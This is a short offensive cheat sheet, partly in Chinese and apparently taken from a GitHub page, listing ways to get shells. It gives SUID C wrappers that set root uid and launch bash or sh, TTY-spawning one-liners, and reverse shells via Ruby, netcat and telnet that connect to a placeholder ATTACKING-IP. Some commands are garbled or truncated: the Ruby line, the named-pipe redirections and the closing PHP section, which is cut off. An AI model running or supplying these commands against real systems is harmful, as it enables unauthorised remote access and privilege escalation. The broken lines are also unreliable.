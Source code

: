 ## <center>Shells & Reverse Shells</center> ##

### SUID C Shells ###

**/bin/bash**

```c
int main(void){
setresuid(0, 0, 0);
system("/bin/bash");
}
```

**/bin/sh**

```c
int main(void){
setresuid(0, 0, 0);
system("/bin/sh");
}
```

### TTY Shell ###
```bash
python -c 'import pty;pty.spawn("/bin/bash")'

echo os.system('/bin/bash')

/bin/sh –i

execute('/bin/sh')

!sh #nmap

"!bash #vi
```

### Spawn Ruby Shell ###

```bash
exec "/bin/sh"

ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d
```

### Netcat ###

````bash
nc -e /bin/sh ATTACKING-IP 80

/bin/sh | nc ATTACKING-IP 80

rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
```

### telnet反弹Shell ###

```bash
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p

telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
```

### PHP ###

假设TCP使用文件描述符3.如果它不起作用，请尝试4,5或6）
```bash
````